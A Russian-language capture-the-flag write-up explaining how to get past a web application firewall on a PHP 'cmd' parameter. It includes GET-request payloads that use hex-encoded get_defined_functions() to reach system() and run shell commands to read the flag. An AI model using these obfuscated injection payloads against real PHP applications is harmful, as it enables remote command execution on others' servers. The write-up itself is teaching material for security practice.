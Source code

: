 # Level Up WAFbypass - writeup

Дана страница, в ней параметр cmd. Нужно подбирать обход WAF, чтобы постепенно дойти к eval.

### Step 1

На первом этапе можно профаззить параметр алфавитом и спецсимволами и увидеть, что не фильтруются кавычки. Ставим кавычки и получаем первый успех.

```bash
GET /?cmd=""
```

![image.png](Level%20Up%20WAFbypass%20-%20writeup%20182021737a8980758db0c225c31d06be/image.png)

### Step 2

Снова прогоняем интрудер, видим что не фильтруются буквы a,b,c,d,e,f,x; цифры и спецсимволы. Наличие х в этом списке явно указывает на необходимость использования шестнадцатеричного представления. И вот тут самая сложная точка в задании - понять, что здесь нужно прибегнуть к массиву объявленных функций, т.к. фильтр ждет ровно такую строку. Используем кавычки и HEX-преобразование, чтобы обойти WAF.

```bash
GET /?cmd="\x67\x65\x74\x5f\x64\x65\x66\x69\x6e\x65\x64\x5f\x66\x75\x6e\x63\x74\x69\x6f\x6e\x73"()
```

![image.png](Level%20Up%20WAFbypass%20-%20writeup%20182021737a8980758db0c225c31d06be/image%201.png)

### Step 3

Просто развиваем идею, обращаемся ко вложенным функциям.

```bash
GET /?cmd="\x67\x65\x74\x5f\x64\x65\x66\x69\x6e\x65\x64\x5f\x66\x75\x6e\x63\x74\x69\x6f\x6e\x73"()["\x69\x6e\x74\x65\x72\x6e\x61\x6c"]
```

![image.png](Level%20Up%20WAFbypass%20-%20writeup%20182021737a8980758db0c225c31d06be/image%202.png)

### Step 4

Нас интересует вложенная функция system, которая позволяет выполнять код на уровне ОС. Но нам неизвестен ее индекс в массиве функций. Ничего не остается, кроме как прогнать интрудером элементы массива от 1 до 1000. Удача улыбается и функция находится на индексе 480.

```bash
GET /?cmd="\x67\x65\x74\x5f\x64\x65\x66\x69\x6e\x65\x64\x5f\x66\x75\x6e\x63\x74\x69\x6f\x6e\x73"()["\x69\x6e\x74\x65\x72\x6e\x61\x6c"][480]
```

![image.png](Level%20Up%20WAFbypass%20-%20writeup%20182021737a8980758db0c225c31d06be/image%203.png)

### Step 5

Имея доступ к шеллу, заканчиваем таск. После захексованного “ls -la” находим файл флага в спрятанной директории …/.flag

НЕ ЗАБЫВАЕМ ПОСТАВИТЬ ТОЧКУ С ЗАПЯТОЙ, ИНАЧЕ СЕРВЕР ВОЗВРАЩАЕТ ОШИБКУ СИНТАКСИСА 500!

```bash
GET /index.php?cmd="\x67\x65\x74\x5f\x64\x65\x66\x69\x6e\x65\x64\x5f\x66\x75\x6e\x63\x74\x69\x6f\x6e\x73"()["\x69\x6e\x74\x65\x72\x6e\x61\x6c"][480]("\x63\x61\x74\x20\x2e\x2e\x2e\x2f\x2e\x66\x6c\x61\x67");
```

Соединяем части флага. Успех!